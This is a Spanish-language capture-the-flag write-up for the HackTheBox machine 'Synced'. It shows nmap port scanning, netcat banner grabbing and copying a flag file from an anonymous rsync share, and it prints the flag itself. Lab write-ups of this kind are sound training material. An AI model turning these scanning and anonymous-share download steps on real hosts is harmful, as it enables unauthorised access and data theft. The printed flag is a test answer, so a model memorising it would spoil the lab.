 # Synced

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
Created time: 4 de enero de 2025 16:50
IP: 10.129.105.81

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.105.81 -oG allports

PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack ttl 63
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p873 -sCV 10.129.105.81 -oN targeted
```

- **Identificación de vulnerabilidades**
    - 873/tcp open  rsync   (protocol version 31)

Enumeramos el puerto 873

Banner grabbing

```bash
nc -nv 10.129.105.81 873
❯ nc -nv 10.129.105.81 873
(UNKNOWN) [10.129.105.81] 873 (rsync) open
@RSYNCD: 31.0
```

Enumeramos con rsync

```bash
❯ rsync 10.129.105.81::
public         	Anonymous Share

rsync -av --list-only rsync://10.129.105.81/public
```

Exfiltrar datos

```bash
❯ rsync -avz 10.129.105.81::public/ /home/fil/Desktop/HTBox/Syncsed
receiving incremental file list
./
flag.txt

sent 50 bytes  received 158 bytes  16,64 bytes/sec
total size is 33  speedup is 0,16

❯ cat flag.txt

   1   │ 72eaf5344ebb84908ae543a719830519
```

Flag :  72eaf5344ebb84908ae543a719830519

## 

## Conclusión

<aside>
💡 Maquina facil sin escalada de privilegios

</aside>